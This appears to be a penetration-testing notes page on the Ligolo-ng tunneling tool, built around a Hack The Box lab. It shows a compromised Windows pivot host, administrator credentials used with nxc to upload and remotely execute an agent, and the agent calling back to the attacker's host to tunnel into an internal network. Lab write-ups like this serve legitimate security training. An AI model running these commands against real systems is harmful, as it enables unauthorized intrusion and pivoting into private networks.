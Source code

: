 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Ligolo-ng

## Commands

### Basic Commands

{% tabs %}
{% tab title="1. Server tun if" %}
```bash
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up
```
{% endtab %}

{% tab title="2a. Proxy (no internet)" %}
```bash
proxy -seflcert
```
{% endtab %}

{% tab title="2b. Proxy (internet)" %}
```bash
proxy -autocert
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="3. Agent" %}
```bash
./agent -connect 10.129.204.146:11601
```
{% endtab %}

{% tab title="4. Add route" %}
```
sudo ip route add 172.16.10.0/24 dev ligolo
```
{% endtab %}

{% tab title="5. Session" %}
```bash
ligolo-ng » session
```
{% endtab %}

{% tab title="6. Tunnel" %}
```bash
[Agent : user@nworkstation] » start_tunnel --tun ligolo
```
{% endtab %}
{% endtabs %}

### Agent Transfer & Execution

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Usage

{% hint style="info" %}
The below network configuration is from the [Vulnerability Scan Modules](https://academy.hackthebox.com/module/84/section/822) section of the Hack The Box's [Using CrackMapExec](https://academy.hackthebox.com/module/details/84) module.
{% endhint %}

We have compromised a Windows pivot host with 2 NICs (Figure 1). Our goal is to be able to interact with the `172.16.10.0/24` network, which at the moment we cannot (Figure 2).&#x20;

<figure><img src="../../../.gitbook/assets/ligolo_ipconfig.png" alt=""><figcaption><p>Figure 1: The compromised pivot host has 2 NICs, one for the 172.16.10.0 and one for the 10.129.0.0 network.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ligolo_target_network_fail.png" alt=""><figcaption><p>Figure 2: Performing an unsuccessful live host discovery and ARP port scan on the target network. </p></figcaption></figure>

Create a tun interface on the Linux attack host (Figure 3).

<figure><img src="../../../.gitbook/assets/ligolo_tun_if.png" alt=""><figcaption><p>Figure 3: Setting up a tun intefrace.</p></figcaption></figure>

Start `proxy` on the Linux attack host (Figure 4). For pivot hosts with no internet connectivity a self-signed certificate need to be generated (`-selfcert`). Otherwise, use `-autocert` to request a proper certificate.

> _On a Windows attack host, we need to have the appropriate_ [_`wintun.dll`_](https://www.wintun.net/) _on the same folder._

<figure><img src="../../../.gitbook/assets/ligogo_proxy.png" alt=""><figcaption><p>Figure 4: Starting the proxy server on the attack host.</p></figcaption></figure>

Transfer and execute the `agent.exe` binary to the pivot host (Figure 5).

{% hint style="success" %}
**Admin access** on the target host **is** **NOT required**!
{% endhint %}

<figure><img src="../../../.gitbook/assets/ligolo_ng_agent_transfer_execute.png" alt=""><figcaption><p>Figure 5: Transferring and executing the agent on the pivot host.</p></figcaption></figure>

A connection should be received on the attack host (Figure 6).

<figure><img src="../../../.gitbook/assets/ligolo_proxy_received.png" alt=""><figcaption><p>Figure 6: Received a connection on thte attack host.</p></figcaption></figure>

Add an IP route for the target network (_ligogo device_) on the attack host (Figure 7).

<figure><img src="../../../.gitbook/assets/liogo_add_route.png" alt=""><figcaption><p>Figure 7: Adding an IP route for the target network.</p></figcaption></figure>

Choose the appropriate session and start the tunnel (Figure 8).

<figure><img src="../../../.gitbook/assets/ligolo_start_tunnel.png" alt=""><figcaption><p>Figure 8: Choosing the session and starting the tunnel.</p></figcaption></figure>

We can now interact from our attack host as if we were a part of the internal network (Figure 9).

<figure><img src="../../../.gitbook/assets/ligolo_live_host_disc_arp_port_scan.png" alt=""><figcaption><p>Figure 9: Performing a successful live host discovery and an ARP port scan on the target network.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
